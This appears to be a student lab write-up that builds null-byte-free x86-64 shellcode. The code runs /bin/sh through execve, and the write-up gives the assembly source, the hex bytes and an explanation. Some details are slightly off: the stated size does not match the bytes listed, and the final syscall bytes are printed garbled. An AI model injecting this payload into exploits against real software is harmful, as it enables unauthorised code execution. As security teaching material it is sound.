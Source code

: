 # Shell code

The goal of this lab was to learn how to write x86-64 bit program in assembly that can be loaded by a C program. This shellcode will execute /bin/sh using exceve 
We also learned about gdb through using it to write our assembly program. 

## Program
```
// Shellcode lab
// Author: Long Tran
.globl _start
.section .text
_start:
    // zero out rax
    xor %rax, %rax
    // push to have array of zeroes on the stack
    pushq %rax
    // %rsi and %rdx - set these to the address leading to an empty array of no pointers.
    // we don't need a pointer to an empty string
    movq %rsp, %rsi
    movq %rsp, %rdx
    
    // %rdi - path
    // "/bin/sh 0x2F62696E2F7368
    // needs to change to little endianess
    movq $0x68732F6E69622F3b, %rbx 
    // retrieve 0x3b, put it in lower 8-bit of rax
    mov %bl, %al

    // push the string
    pushq %rbx
    // copy the stack pointer
    movq %rsp, %rdi
    // increase it by one to get past 0x3b
    inc %rdi

    syscall
```
### Explanation

To set up for the system call, we basically need the following:

1. Put 0x3b into %rax
2. Push 8 bytes of 0x0 onto the stack. 
3. Store the address of the memory of the pushed 0 in %rsi (argv) and %rdx (env). This will lead to an empty array of pointers. 
4. Push the string "/bin/sh" onto the stack.
5. Store the address of the string in %rdi. 
6. Call the system call with `syscall`

However, to remove the zero byte and reduce the size. I made some changes. A detailed instruction can be seen through the comments of the assembly code. 

### Report

My shell code is 31 bytes long. Here they are:

    48 31 c0 50 48 89 e6 48 89 e2 48 bb 3b 2f 62 69 6e 2f 73 68 88 d8 53 48 89 e7 48 ff c7 f 5

### Explanation for NULL bytes        

As can be seen from the hexdump, there is no 0 bytes in the code.
I made sure that there are no NULL bytes by adding a check in the shellcode_tester.c and check if there is a 0 byte read. If there is a 0 byte read, then the program exits.

I realized by adding and removing instructions that the zero bytes only come from the intermediate numbers (e.g: $0x3b) to fill up the 8 bytes.

Thus, to eliminate NULL bytes, I did 2 things: 
1. I xor 2 registers to get a value 0 without having to write $0x0. 
2. I combined both the string "/bin/sh" and the code system call code 0x3b into one number. To get the code, I only simply need to get the lower 8 byte from the register. I then pushed the entire number and to get the address of the string "/bin/sh" only, I incremented the stack pointer by one to get pass 0x3b. 
